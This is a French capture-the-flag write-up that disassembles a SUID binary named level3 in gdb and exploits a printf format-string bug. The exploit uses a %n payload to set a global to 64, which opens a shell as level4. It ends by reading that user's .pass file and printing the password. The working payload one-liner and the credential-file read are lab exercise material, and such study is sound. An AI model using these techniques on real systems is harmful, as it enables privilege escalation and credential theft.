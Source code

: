 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
  [...]
  ```
    - On a un binaire appartenant a level4 dans le home avec les droits SUID.

- `./level3`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level3`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484a4  v
      0x0804851a  main
    [...]
    ```
    - on trouve une fonction v en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
      0x0804851a <+0>:	push   ebp
      0x0804851b <+1>:	mov    ebp,esp
      0x0804851d <+3>:	and    esp,0xfffffff0
      0x08048520 <+6>:	call   0x80484a4 <v>
      0x08048525 <+11>:	leave
      0x08048526 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction v()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction main() ne fait rien d'autre qu'appeler v()<br/><br/>
    
  - `disas v`
    ```asm
    Dump of assembler code for function v:
      0x080484a4 <+0>:	push   ebp
      0x080484a5 <+1>:	mov    ebp,esp
      0x080484a7 <+3>:	sub    esp,0x218
      0x080484ad <+9>:	mov    eax,ds:0x8049860
      0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
      0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
      0x080484be <+26>:	lea    eax,[ebp-0x208]
      0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
      0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
      0x080484cc <+40>:	lea    eax,[ebp-0x208]
      0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
      0x080484d5 <+49>:	call   0x8048390 <printf@plt>
      0x080484da <+54>:	mov    eax,ds:0x804988c
      0x080484df <+59>:	cmp    eax,0x40
      0x080484e2 <+62>:	jne    0x8048518 <v+116>
      0x080484e4 <+64>:	mov    eax,ds:0x8049880
      0x080484e9 <+69>:	mov    edx,eax
      0x080484eb <+71>:	mov    eax,0x8048600
      0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
      0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
      0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
      0x08048504 <+96>:	mov    DWORD PTR [esp],eax
      0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
      0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
      0x08048513 <+111>:	call   0x80483c0 <system@plt>
      0x08048518 <+116>:	leave
      0x08048519 <+117>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur de l'adresse 0x8049860 dans le data segment register
        - `x/s 0x8049860`
          - `0x8049860 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) dans la stack (à esp + 8)
      - Stocke 0x200 (512) dans la stack (à esp + 4)
      - Stocke dans eax la valeur à ebp - 520 => esp + 16
      - Stocke la valeur de eax (valeur à l'adresse ebp - 520) dans la stack (à esp)
      - Call fgets() avec les arguments stockés dans la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse ebp - 520) sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+62>
      - Stocke dans eax la valeur de l'adresse 0x804988c dans le data segment register
        - `x/s 0x804988c`
          - `0x804988c <m>:	 ""`
      - Compare la valeur de eax (la globale m) avec 0x40 (64)
      - Jump à <+116> si la comparaison est fausse<br/><br/>
    - <+64> ... <+99>
      - Stocke dans eax la valeur de l'adresse 0x8049880 dans le data segment register
        - `x/s 0x8049880`
          - `0x8049880 <stdout@@GLIBC_2.0>:	 " ", <incomplete sequence \375\267>`
      - Stocke eax dans edx
      - Stocke dans eax la valeur de l'adresse 0x8048600
        - `x/s 0x8048600`
          - `0x8048600:	 "Wait what?!\n"`
      - Stocke edx (stdout) sur la stack (à esp + 12)
      - Stocke 0xc (12) sur la stack (à esp + 8)
      - Stocke 0x1 (1) sur la stack (à esp + 4)
      - Stocke la valeur de eax ("Wait what?!\n") sur la stack (à esp)
      - Call fwrite() avec les arguments stockés sur la stack<br/><br/>
    - <+104> ... <+111>
      - Stocke la valeur à l'adresse 0x804860d sur la stack (à esp)
        - `x/s 0x804860d`
          - `0x804860d:	 "/bin/sh"`
      - Call system() avec l'argument stocké sur la stack<br/><br/>
    - <+116> ... <+117> <= Jump conditionnel depuis <+62>
      - Réinitialisation de la mémoire, fin d'exécution

Du coup la fontion v(): (buffer = ebp - 520)
  - Call fgets(buffer, 512, stdin)
  - Call printf(buffer)
  - Compare la globale m avec 64
    - Jump direct à la fin si la comparaison est fausse
    - sinon:
      - Call fwrite("Wait, what?\n", 1, 12, stdout)
      - Call system("/bin/sh")

## Exploit

On comprend grâce à l'analyse que pour pouvoir avoir notre shell il va falloir donner à la globale 'm' (à l'adresse 0x804988c) la valeur 64, sinon on sort direct du programme.

On fait appel à deux fonctions avant la comparaison:
- fgets(buffer, 512, stdin), qui est protégé d'un buffer overflow puisqu'il ne lira jamais plus de 511 octets
- printf(buffer), ici par contre le printf est vulnérable à un [exploit de format string](https://cs155.stanford.edu/papers/formatstring-1.2.pdf#page=11)

On cherche le nombre de paramètres a demander pour que printf() commence a prendre ses arguments sur le début de notre format string:
- `echo 'AAAA%x.%x.%x.%x.%x' | ./level3`
  ```
  AAAA200.b7fd1ac0.b7ff37d0.41414141.252e7825
  ```
    - On remarque que printf arrive bien sur le début de notre format string (`41414141` => `AAAA`), au quatrième paramètre
- On peut donc choisir une adresse à afficher: `python -c 'print "\x8c\x98\x04\x08 %4$x"' | ./level3`
  ```
  � 804988c
  ```
Maintenant qu'on sait comment y accéder, on va se servir du [modifier %n de printf](https://docs.microsoft.com/en-us/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-170), qui prend un pointeur sur entier en paramètre (notre adresse) et y écrit le nombre d'octets précédemment affichés par printf.
- `python -c 'print "\x8c\x98\x04\x08%1$60d%4$n"' | ./level3`
  - Ici, on affiche l'adresse (4 octets) et le premier paramètre de la stack (0x200) avec un padding de 60 (60 octets)
  - Puis on dit a printf d'écrire le nombre d'octets écrits précédemment (donc 60 + 4) à l'adresse indiquée par le 4ème argument (qui est le début de notre format string: `0x804988c` en little endian)
    ```
    �                                                         512
    Wait what?!
    ```
    - Ca fonctionne, on n'a plus qu'a maintenir le shell ouvert avec cat:
      - `python -c 'print "\x8c\x98\x04\x08%1$60d%4$n"' > /tmp/exploit`
      - `cat /tmp/exploit - | ./level3`
        ```
        �                                                         512
        Wait what?!

        ```
        - `whoami`
          ```
          level4
          ```
          - `cat /home/user/level4/.pass`
            ```
            b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
            ```

